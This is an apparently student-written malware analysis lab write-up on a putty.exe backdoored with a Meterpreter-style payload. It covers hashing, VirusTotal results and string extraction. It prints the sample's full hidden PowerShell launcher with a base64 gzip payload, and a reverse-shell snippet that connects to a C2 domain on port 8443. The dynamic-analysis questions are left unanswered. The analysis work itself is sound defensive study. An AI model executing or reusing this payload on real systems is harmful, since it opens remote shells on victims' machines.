


# Basic Static Analysis
## What is the SHA256 hash of the sample?
```powershell
PS C:\Users\bob\Desktop > Get-FileHash .\putty.exe | Format-List


Algorithm : SHA256
Hash      : 0C82E654C09C8FD9FDF4899718EFA37670974C9EEC5A8FC18A167F93CEA6EE83
Path      : C:\Users\bob\Desktop\putty.exe
```
## Are there any results from submitting the SHA256 hash to VirusTotal??
Yes, The malware matched public known malware on Virustotal. 61/71 vendors flagged the malware as malicious [1]. Multiple vendor flagged the malware as Shellcode, Metasploit, and Meterpreter.

Based on above information, the malware is likely a `Putty.exe` with metepreter shell backdoor. The attacker injected `Meterpeter` shell into legit `Putty.exe` using `MSFvenom`. For more infomation please check [2]

The picture below shows 2 Putty.exe details. Legit Putty.exe [3] on the left and the malware on the righ.



Note that the malware is ~20mb lager than the legit Putty.exe. 

Ref:

[1] https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83

[2] https://www.offensive-security.com/metasploit-unleashed/backdooring-exe-files/

[3] legit putty hxxp://the.earth.li/~sgtatham/putty/latest/x86/putty.exe

## Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?

```powershell
PS C:\Users\bob\Desktop > FLOSS.exe .\putty.exe > floss.txt
```
Found very suspicious string
```powershell
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAOW/UWECA51W227jNhB991cMXHUtIRbhdbdAESCLepVsGyDdNVZu82AYCE2NYzUyqZKUL0j87yUlypLjBNtUL7aGczlz5kL9AGOxQbkoOIRwK1OtkcN8B5/Mz6SQHCW8g0u6RvidymTX6RhNplPB4TfU4S3OWZYi19B57IB5vA2DC/iCm/Dr/G9kGsLJLscvdIVGqInRj0r9Wpn8qfASF7TIdCQxMScpzZRx4WlZ4EFrLMV2R55pGHlLUut29g3EvE6t8wjl+ZhKuvKr/9NYy5Tfz7xIrFaUJ/1jaawyJvgz4aXY8EzQpJQGzqcUDJUCR8BKJEWGFuCvfgCVSroAvw4DIf4D3XnKk25QHlZ2pW2WKkO/ofzChNyZ/ytiWYsFe0CtyITlN05j9suHDz+dGhKlqdQ2rotcnroSXbT0Roxhro3Dqhx+BWX/GlyJa5QKTxEfXLdK/hLyaOwCdeeCF2pImJC5kFRj+U7zPEsZtUUjmWA06/Ztgg5Vp2JWaYl0ZdOoohLTgXEpM/Ab4FXhKty2ibquTi3USmVx7ewV4MgKMww7Eteqvovf9xam27DvP3oT430PIVUwPbL5hiuhMUKp04XNCv+iWZqU2UU0y+aUPcyC4AU4ZFTope1nazRSb6QsaJW84arJtU3mdL7TOJ3NPPtrm3VAyHBgnqcfHwd7xzfypD72pxq3miBnIrGTcH4+iqPr68DW4JPV8bu3pqXFRlX7JF5iloEsODfaYBgqlGnrLpyBh3x9bt+4XQpnRmaKdThgYpUXujm845HIdzK9X2rwowCGg/c/wx8pk0KJhYbIUWJJgJGNaDUVSDQB1piQO37HXdc6Tohdcug32fUH/eaF3CC/18t2P9Uz3+6ok4Z6G1XTsxncGJeWG7cvyAHn27HWVp+FvKJsaTBXTiHlh33UaDWw7eMfrfGA1NlWG6/2FDxd87V4wPBqmxtuleH74GV/PKRvYqI3jqFn6lyiuBFVOwdkTPXSSHsfe/+7dJtlmqHve2k5A5X5N6SJX3V8HwZ98I7sAgg5wuCktlcWPiYTk8prV5tbHFaFlCleuZQbL2b8qYXS8ub2V0lznQ54afCsrcy2sFyeFADCekVXzocf372HJ/ha6LDyCo6KI1dDKAmpHRuSv1MC6DVOthaIh1IKOR3MjoK1UJfnhGVIpR+8hOCi/WIGf9s5naT/1D6Nm++OTrtVTgantvmcFWp5uLXdGnSXTZQJhS6f5h6Ntcjry9N8eXQOXxyH4rirE0J3L9kF8i/mtl93dQkAAA=='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```
Note
- GzipStream -> Gunzip
- base64 encoded strings which is likely a payload

Using cybercheft to extract the payload: 



`# Powerfun - Written by Ben Turner & Dave Hardy` matched a powershell script can be found on Github. 

The most intresting part seems to be the following:
```powershell
if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }
```
The malware likely connect back C2 server with domain `bonus2.corporatebonusapplication.local` on port `8443`

Ref:

[1] hxxtps://github.com/davehardy20/PowerShell-Scripts/blob/master/Invoke-Powerfun.ps1

## Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
Multiple API calls but those API is likely a legit API call use by legit/original Putty.
## Is it likely that this binary is packed?
Virtual and raw data value are very close. Also the malware has so many imports which indicate that the malware is likely NOT packed
# Basic Dynamic Analysis

## Describe initial detonation. Are there any notable occurances at first detonation? Without internet simulation? With internet simulation?

## From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?

## What is the DNS record that is queried at detonation?

## What is the callback port number at detonation?

## What is the callback protocol at detonation?

## How can you use host-based telemetry to identify the DNS record, port, and protocol?

## Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?
